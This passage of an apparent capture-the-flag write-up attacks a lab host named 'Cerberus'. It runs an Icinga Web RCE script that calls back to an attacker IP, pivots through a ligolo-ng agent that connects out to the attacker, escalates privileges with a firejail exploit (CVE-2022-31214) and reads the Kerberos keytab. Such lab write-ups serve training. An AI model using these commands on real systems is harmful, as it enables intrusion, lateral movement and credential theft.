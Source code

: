 <img src="https://i.imgur.com/RVOwJud.png"/>

```bash
python3 ./RCE.py -t http://icinga.cerberus.local:8080/icingaweb2 -I 10.10.14.98 -P 2222 -u 'matthew' -p 'IcingaWebPassword2023' -e ./id_rsa
```

<img src="https://i.imgur.com/dqnO9dY.png"/>
Checking the `/etc/hosts` file there's a host `DC.cerberus.local` on `172.16.22.1`

<img src="https://i.imgur.com/BBVCm6g.png"/>

To pivot, we can use `ligolo-ng` for that we need to do a little setup for setting up the interface

```bash
sudo ip tuntap add user root mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.16.22.0/24 dev ligolo
```

Then on attacking machine run `proxy`

```bash
./proxy -selfcert
```

<img src="https://i.imgur.com/Wncr3gR.png"/>

And on target machine run the `agent`

```bash
agent -connect 10.10.14.98:11601 -ignore-cert -retry
```

<img src="https://i.imgur.com/ZYVqhWu.png"/>

After running agent, we'll get a connection on our machine

<img src="https://i.imgur.com/n9Cunpz.png"/>

Scanning for common ports on dc it only showed port 5985 (WinRM) open on the machine 

<img src="https://i.imgur.com/diSEjgU.png"/>

Running linpeas, it showed `firejail` showing as unknown SUID binary

<img src="https://i.imgur.com/o0LYPaR.png"/>

Searching for firejail exploits there's a CVE for local privilege escalation `CVE-2022-31214`

https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25

<img src="https://i.imgur.com/TgVTzfp.png"/>

With root user we have read access to `/etc/krb5.keytab`

<img src="https://i.imgur.com/w9jtnsK.png"/>
